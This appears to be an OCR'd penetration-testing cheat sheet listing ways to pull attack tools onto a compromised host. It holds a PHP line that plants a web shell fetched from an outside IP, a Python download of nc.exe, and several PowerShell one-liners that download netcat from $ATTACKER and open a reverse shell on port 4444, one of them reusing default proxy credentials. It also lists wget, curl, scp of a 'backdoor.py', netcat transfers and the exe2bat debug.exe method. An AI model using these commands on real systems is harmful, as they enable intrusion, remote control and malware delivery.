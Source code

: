 <?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>

Python

python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"

HTTP: Powershell

powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');

# download using default proxy credentials and launch
powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe") | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }

HTTP: VBScript

Copy and paste contents of wget.vbs into a Windows Shell and then:

cscript wget.vbs http://$ATTACKER/file.exe localfile.exe

HTTP: Linux

wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py

NetCat

# Attacker
nc -l -p 4444 < /tool/file.exe

# Victim
nc $ATTACKER 4444 > file.exe

HTTP: Windows "debug.exe" Method

# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt
# 2. Paste nc.txt into Windows Shell.
